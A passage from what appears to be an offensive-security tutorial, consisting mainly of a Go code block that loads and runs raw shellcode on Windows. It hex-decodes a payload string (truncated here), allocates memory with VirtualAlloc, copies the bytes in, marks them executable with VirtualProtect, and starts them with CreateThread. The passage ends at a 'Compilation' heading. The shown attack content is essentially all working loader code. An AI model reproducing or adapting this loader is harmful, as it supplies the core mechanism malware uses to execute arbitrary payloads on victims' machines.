 ```go
	shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883...")
  
	shellcodeExec, err := windows.VirtualAlloc(  
		uintptr(0), //[in, optional] LPVOID lpAddress,  
		uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
		windows.MEM_COMMIT|windows.MEM_RESERVE, //[in] DWORD flAllocationType,  
		windows.PAGE_READWRITE, //[in] DWORD flProtect  
		)
		  
	if err != nil {  
		log.Fatal("Error while VirtualAlloc:", err)  
	}  
  
	memcpy(shellcodeExec, shellcode)  
  
	var oldProtect uint32  
	err = windows.VirtualProtect(  
		shellcodeExec, //[in] LPVOID lpAddress,  
		uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
		windows.PAGE_EXECUTE_READ, //[in] DWORD flNewProtect,  
		&oldProtect, //[out] PDWORD lpflOldProtect  
	)
	  
	if err != nil {  
		log.Fatal("Error while VirtualProtect:", err)  
	}  
  
	_, _, err = createThread.Call(  
		0, //[in, optional] LPSECURITY_ATTRIBUTES lpThreadAttributes,  
		0, //[in] SIZE_T dwStackSize,  
		shellcodeExec, //[in] LPTHREAD_START_ROUTINE lpStartAddress,  
		uintptr(0), //[in, optional] __drv_aliasesMem LPVOID lpParameter,  
		0, //[in] DWORD dwCreationFlags,  
		0, //[out, optional] LPDWORD lpThreadId  
		)  
  
	if err.Error() != "The operation completed successfully." {  
		log.Fatal("Error while CreateThread:", err)  
	}    
}  
  
// memcpy in golang from https://github.com/timwhitez/Doge-Gabh/blob/main/example/shellcodecalc/calc.go
func memcpy(base uintptr, buf []byte) {  
	for i := 0; i < len(buf); i++ {  
		*(*byte)(unsafe.Pointer(base + uintptr(i))) = buf[i]  
	}  
}
```

## Compilation
